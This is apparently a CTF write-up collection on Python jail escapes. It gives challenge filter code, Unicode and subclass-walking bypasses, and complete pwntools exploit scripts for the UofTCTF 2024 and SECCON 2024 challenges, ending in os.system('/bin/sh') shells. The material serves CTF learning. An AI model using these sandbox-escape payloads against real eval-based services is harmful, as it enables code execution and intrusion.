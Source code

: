 # Python jail

References:

- [Pyjail Cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/)

## WHY2025 CTF TitleCase

Use unicode bypass to avoid `str.title()`.

Visit [here](../2025-08-08-why2025/misc/title-case.md).

## FortID CTF 2025 Michael Scottfield

Requirements:

1. Length <= 500: Easy to achieve
2. Allow `()` but no parameters: Use `pdb.set_trace()` or `code.InteractiveConsole().interact()`
3. No strings: Use docstrings and `str[index]` to create strings
3. No numbers: Use `True` as 1
4. No builtins: Use `().__class__.__base__.__subclasses__()`

Details [here](../2025-09-12-fortid-ctf-2025/michael-scottfield.md)

## UofTCTF 2024 Jail Zero

```python
def check(code):
    # no letters
    alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    # no numbers
    numbers = "0123456789"
    # no underscores
    underscore = "__"
    
    return not any((c in alphabet) or (c in numbers) or (underscore in code) for c in code)

def safe_eval(code):
    if (check(code)):
        g = {'__builtins__': None}
        l = {'__builtins__': None}
        return print(eval(code, g, l )) # good luck!
    else:
        print("lol no")
        
code = input(">>> ")
safe_eval(code)
```

Requirements:

1. No alphabetic: Use [Unicode Block “Mathematical Alphanumeric Symbols”](https://www.compart.com/en/unicode/block/U+1D400) to bypass
2. No numbers: Use `(''=='')` as 1
3. No double underscores: Use [FULLWIDTH LOW LINE](https://unicode-explorer.com/c/FF3F)
4. No builtins: Use `().__class__.__base__.__subclasses__()`

Then, we can use existing way to get to `code.InteractiveConsole().interact()`:

1. Locate `<class '_sitebuiltins._Helper'>` and `<class '_sitebuiltins._Printer'>` in `().__class__.__base__.__subclasses__()`
2. Call `help()` via `<class '_sitebuiltins._Helper'>` and load `code` module in help() system
3. Locate `sys` module via `<class '_sitebuiltins._Printer'>.__init__.__globals__`
4. Execute `sys.modules["code"].InteractiveConsole().interact()`

Attack script:

```python
from pwn import *

context(log_level="debug")


# unicode bypass helper
def transform(text):
    encoded = ""
    # full width low line
    underscore = chr(0xFF3F)
    text = text.replace("__", "_" + underscore)
    for ch in text:
        if ch.isalpha():
            if ch >= "a" and ch <= "z":
                encoded += chr(ord(ch) + 0x1D41A - ord("a"))
            elif ch >= "A" and ch <= "Z":
                encoded += chr(ord(ch) + 0x1D400 - ord("A"))
            else:
                assert False
        else:
            encoded += ch
    print("before", text)
    print("after", encoded)
    return encoded


# step 1. locate Helper and Printer
p = process(["python3", "chal.py"])
p.recvuntil(b">>> ")
p.sendline(transform("().__class__.__base__.__subclasses__()").encode())
res = p.recvline().decode()

helper_index = res.split(", ").index("<class '_sitebuiltins._Helper'>")
printer_index = res.split(", ").index("<class '_sitebuiltins._Printer'>")
print("Helper", helper_index)
print("Printer", printer_index)

# A is 10, B is 100

true = "(''=='')"
ten = "+".join([true] * 10)


def get_index(index):
    parts = (
        [true] * (index % 10) + ["A"] * (index // 10 % 10) + ["B"] * (index // 100 % 10)
    )
    return "+".join(parts)


# H for index of helper
helper = get_index(helper_index)
print(helper)


# find help text of helper
p = process(["python3", "chal.py"])
p.recvuntil(b">>> ")
p.sendline(
    transform(
        f"[A:={ten},B:=A*A,H:={helper},S:=().__class__.__base__.__subclasses__()[H].__doc__]"
    ).encode()
)
help_text = eval(p.recvline().decode())[-1]

# P for index of printer

printer = get_index(printer_index)
print(printer)


# synthesize "sys" and "code"
def synthesize(text):
    res = []
    for ch in text:
        index = help_text.index(ch)
        res.append("S[" + get_index(index) + "]")
    return "+".join(res)


p = process(["python3", "chal.py"])
p.recvuntil(b">>> ")
p.sendline(
    transform(
        f"[A:={ten},B:=A*A,H:={helper},P:={printer},S:=().__class__.__base__.__subclasses__()[H].__doc__,"
        # step 2. call help()
        + f"().__class__.__base__.__subclasses__()[H]()(),"
        # step 3. locate sys module
        + f"M:=().__class__.__base__.__subclasses__()[P].__init__.__globals__[{synthesize('sys')}],"
        # step 4. call sys.modules["code"].InteractiveConsole().interact()
        + f"M.modules[{synthesize('code')}].InteractiveConsole().interact()]"
    ).encode()
)
p.recvuntil(b"help> ")
# step 2. load code module in help() system
p.sendline(b"code")
p.sendline(b"quit")
p.sendline(b"import os")
p.sendline(b'os.system("/bin/sh")')
p.interactive()
```

## SECCON 2024 Quals 1linepyjail

```python
print(eval(code, {"__builtins__": None}, {}) if len(code := input("jail> ")) <= 100 and __import__("re").fullmatch(r'([^()]|\(\))*', code) else ":(")
```

Requirements:

1. Length <= 100: Try hard to reduce input length
2. Allow `()` but no parameters: Use `pdb.set_trace()`
3. No builtins: Use `().__class__.__base__.__subclasses__()`

Steps:

1. Locate `<class '_sitebuiltins._Helper'>` and `<class '_sitebuiltins._Printer'>` in `().__class__.__base__.__subclasses__()`
2. Call `help()` via `<class '_sitebuiltins._Helper'>` and load `pdb` module in help() system
3. Locate `sys` module via `<class '_sitebuiltins._Printer'>.__init__.__globals__` and execute `sys.modules['pdb'].set_trace()`

Attack script:

```python
from pwn import *

context(log_level="debug")

# step 1. locate Helper and Printer
p = process(["python3", "jail.py"])
p.recvuntil(b"jail>")
p.sendline("().__class__.__base__.__subclasses__()".encode())
res = p.recvline().decode()

helper_index = res.split(", ").index("<class '_sitebuiltins._Helper'>")
printer_index = res.split(", ").index("<class '_sitebuiltins._Printer'>")
print("Helper", helper_index)
print("Printer", printer_index)

# step 2. call help() to load pdb module
p = process(["python3", "jail.py"])
p.recvuntil(b"jail>")
p.sendline(
    (
        f"().__class__.__base__.__subclasses__()[{helper_index}]()()"
    ).encode()
)
# load pdb and return to jail
p.sendline(b"pdb")
p.sendline(b"jail")
p.recvuntil(b"jail>")
# step 3. locate sys module and call `sys.modules['pdb'].set_trace()`
p.sendline(
    (
        f"().__class__.__base__.__subclasses__()[{printer_index}].__init__.__globals__['sys'].modules['pdb'].set_trace()"
    ).encode()
)
# in pdb
p.recvuntil(b"(Pdb) ")
p.sendline(
    (
        f"().__class__.__base__.__subclasses__()[{printer_index}].__init__.__globals__['sys'].modules['os'].system('/bin/sh')"
    ).encode()
)
p.interactive()
```

